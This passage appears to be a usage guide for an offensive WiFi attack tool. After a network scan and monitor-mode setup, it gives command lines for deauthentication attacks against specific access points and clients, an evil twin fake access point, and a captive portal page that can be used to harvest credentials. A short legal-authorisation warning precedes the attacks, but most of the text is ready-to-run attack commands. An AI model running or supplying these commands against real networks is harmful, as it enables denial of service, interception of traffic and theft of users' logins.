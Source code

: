 **Output will show:**
```
[SCAN] Found networks:
[1] SSID: "MyWiFi" | BSSID: AA:BB:CC:DD:EE:FF | Channel: 6 | Security: WPA2
[2] SSID: "Neighbor" | BSSID: 11:22:33:44:55:66 | Channel: 11 | Security: WPA
```

### Step 3: Setup Monitor Mode
```bash
# Setup monitor mode on your WiFi adapter
sudo python3 gun_wifi_tool.py --monitor --interface wlan0
```

**What happens:**
1. Tool switches your WiFi adapter to monitor mode
2. You can now capture WiFi traffic
3. Your internet connection will be disabled during this

---

## ⚔️ **Attack Operations**

### 🚨 **IMPORTANT: Legal Authorization Required**
```
⚠️ ONLY USE ON NETWORKS YOU OWN OR HAVE WRITTEN PERMISSION TO TEST!
⚠️ UNAUTHORIZED ACCESS IS ILLEGAL!
⚠️ FOLLOW LOCAL LAWS AND REGULATIONS!
```

### Attack 1: Deauthentication Attack
```bash
# Basic deauth attack
sudo python3 gun_wifi_tool.py --deauth --target AA:BB:CC:DD:EE:FF

# Deauth with specific client
sudo python3 gun_wifi_tool.py --deauth --target AA:BB:CC:DD:EE:FF --client 11:22:33:44:55:66

# Deauth for specific duration
sudo python3 gun_wifi_tool.py --deauth --target AA:BB:CC:DD:EE:FF --duration 60
```

### Attack 2: Evil Twin Attack
```bash
# Create fake access point
sudo python3 gun_wifi_tool.py --evil-twin --ssid "FreeWiFi" --interface wlan0

# Evil twin with specific channel
sudo python3 gun_wifi_tool.py --evil-twin --ssid "FreeWiFi" --channel 6
```

### Attack 3: Captive Portal
```bash
# Setup captive portal
sudo python3 gun_wifi_tool.py --captive-portal --template corporate

# Custom captive portal
sudo python3 gun_wifi_tool.py --captive-portal --template custom --html-file mypage.html
```

---